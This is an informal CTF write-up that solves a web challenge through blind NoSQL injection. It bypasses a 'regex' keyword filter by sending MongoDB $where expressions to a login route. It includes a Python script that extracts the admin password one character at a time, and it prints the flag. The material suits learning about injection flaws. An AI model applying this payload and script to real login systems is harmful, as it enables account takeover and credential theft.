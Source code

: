 ![image](https://github.com/qlashx/ctf_writeups/assets/106611511/076a4997-1f19-4473-b64f-580cc4d79624)# Description:
**I'd rather die than use a password manager. In other news, can anyone help me remember the login info for my account?**

**There was a source code provided with the chall**

# Walkthrough:
**First, let's access the main page of the website.**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/035fb34f-cbfd-47fa-9241-e4442dce4140)

**lets look at the sign in page**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/e91f5753-8bd2-483c-8517-f9f91f42a171)

**Now lets look at the code to get better understanding of the web app**
**in the provided folder we have two importand files firs index.js and second startup.js lets take a look deeper in them**


**startup.js**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/22639b08-90d1-4782-bdea-6a32a010e584)
**it is a normal file for oppen a connection with mongodb (nosql db) and it create a collection(table) called users and add document in it with data username -> admin password->flag so it is clear that we need to get the flag right <3**


**index.js**
**it is a normal application writen with nodejs and used express as a framework**
**But in the login i notice that there is a vuln with how the code take the data from the user here**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/855df51e-bc48-4694-be73-b086a5a76baf)

**the developer take the input from the user and pass it fillter function lets see what dose this function do**

```const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```
**it's goal is to convert input to lower and check if it have a regex word in it or not mmmmmmmmmmm interesting**

**lets get back the login route after the filter function return true it start a connection with the db and pass the req.body to the db (it is nosql) wow it only validate that input dosent have a regex word and i have a full control on the request from i can add any paramters i want and it will get passed to the db**

**after the db retrun data it only print a Login successful! here i knowed that iam facing an blindbased nosql injection and i cannot use regex word to get the flag but i have a full control on the paramters that is being passed to the db**

**so what about add the $where operator that makes me able to write a js code that could help me to get the flag so lets first make sure that it accept the where operator by sending this $where:"1" and this $where:"0" and see the difference in the response**

**i deleted the password so it dosent retrun Login failed! every time i have a full control on the paramters DF**

**in $where:"1" we got a Login successful! oh nice**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/c5d41e41-eb27-4d6b-b984-a417e08c4ff3)

**in  $where:"0" we got Login failed!**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/60916a21-b6be-4fd5-92d8-a48e2844d608)

**so now we know that on the right statment we will get  Login successful! and on false we will get  Login failed!**

**now how we will get the password ????????**

**so what about do this -> this.password -> if this return true it mean that it see the password filed in the db and we can get the flag by brute forcing its content lets try**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/761f5b92-194a-4ad7-b68b-a55002918f1c)

**it worked  so first lets know the size but howw? -> like this this.password[0],this.password[20] till it return false it mean that it's size is smaller than the number you are passing after some time i knowed the size was 59**

**now we need to extract the data we can access each char as i saied like this this.password[0] right ? so what about make a bollean statment and check if it return true it mean that this index contain this char**

**like this this.password[0]=="a" if it return true it mean that at index 0 the char is a got it ? <3**
**but iam not doing it for a 59 char XD so i made this script**
```import requests
import json
wordlist = [
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    'A', 'a', 'B', 'b', 'C', 'c', 'D', 'd', 'E', 'e',
    'F', 'f', 'G', 'g', 'H', 'h', 'I', 'i', 'J', 'j',
    'K', 'k', 'L', 'l', 'M', 'm', 'N', 'n', 'O', 'o',
    'P', 'p', 'Q', 'q', 'R', 'r', 'S', 's', 'T', 't',
    'U', 'u', 'V', 'v', 'W', 'w', 'X', 'x', 'Y', 'y',
    'Z', 'z', '~', '!', '@', '#', '$', '%', '^', '&',
    '*', '(', ')', '-', '_', '+', '=', '{', '}', ']',
    '[', '|', '\\', '`', ',', '.', '/', '?', ';', ':',
    "'", '"', '<', '>', ' '
]

password = ''

# Define the JSON data
data = {"username": "admin", "$where": ""}

# Iterate through each character in the wordlist
for i in range(60):
    for char in wordlist:
        data["$where"] = f"this.password[{i}]=='{char}'"


        response = requests.post('http://35.232.242.42:5249/login', json=data)

        if response.status_code == 200:
            password += char
            i = i+1
            print("Password:", password)
            break

print("Password:", password)```

**and after you run this you will get the flag GGGGGGGGGG**

flag -> squ1rrel{7h0ugh7_y0u_c0u1d_regex_y0ur_way_0u7_0f_7h1s_ay3?}







